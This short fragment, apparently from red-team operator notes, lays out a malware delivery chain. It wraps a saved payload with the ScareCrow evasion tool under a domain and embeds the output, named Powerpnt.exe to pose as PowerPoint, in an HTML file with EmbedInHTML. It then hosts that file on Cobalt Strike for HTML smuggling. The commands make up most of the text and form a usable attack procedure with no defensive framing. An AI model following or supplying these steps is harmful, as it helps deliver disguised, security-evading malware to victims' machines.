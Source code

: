 * Save as: `payload64.bin`
* Run the following command:

  ```bash
  ./ScareCrow -I /share/payloadstmp/payload64.bin -domain <DOMAIN>
  ```
  1. <https://github.com/optiv/ScareCrow>
* Embed the script in HTML

  ```bash
  python embedinHTML.py -f Powerpnt.exe -o 24-dns-scarecrow.html -k randomkeygoeshere
  ```
  1. <https://github.com/Arno0x/EmbedInHTML>
* Host HTML file on Cobalt Strike